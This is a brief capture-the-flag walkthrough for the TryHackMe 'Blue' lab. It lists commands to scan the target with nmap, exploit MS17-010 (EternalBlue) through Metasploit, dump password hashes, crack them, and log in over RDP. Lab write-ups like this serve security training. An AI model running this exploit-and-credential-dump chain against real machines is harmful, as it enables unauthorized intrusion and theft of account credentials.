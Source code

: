 # TryHackMe-Blue

This document outlines the steps to successfully complete the TryHackMe Blue room.

## Summary of Steps

1.  **Vulnerability Scan**: Identify potential vulnerabilities on the target machine.
2.  **Use Exploit**: Leverage an exploit to gain initial access.
3.  **Get Password Hash**: Extract password hashes from the compromised system.
4.  **Get Password**: Crack the obtained password hashes.
5.  **Login**: Use the cracked credentials to log in to the target machine.

## 5 Steps to Hack the TryHackMe Blue Room

* Vulnerability Scan​
  ```bash
  nmap --script vuln -T5 TARGET_IP
  ```
* Use Exploit​
  ```bash
  msfconsole
  search ms17
  use 0
  options
  set rhost TARGET_IP
  run
  ```
* Get Password Hash​
  ```bash
  hashdump
  ```
* Get Password​
  ```
  # Use a service like hashes.com
  ```
* Login
  ```bash
  xfreerdp /u:username /p:"password" /v:AttackBoxIP ​
  ```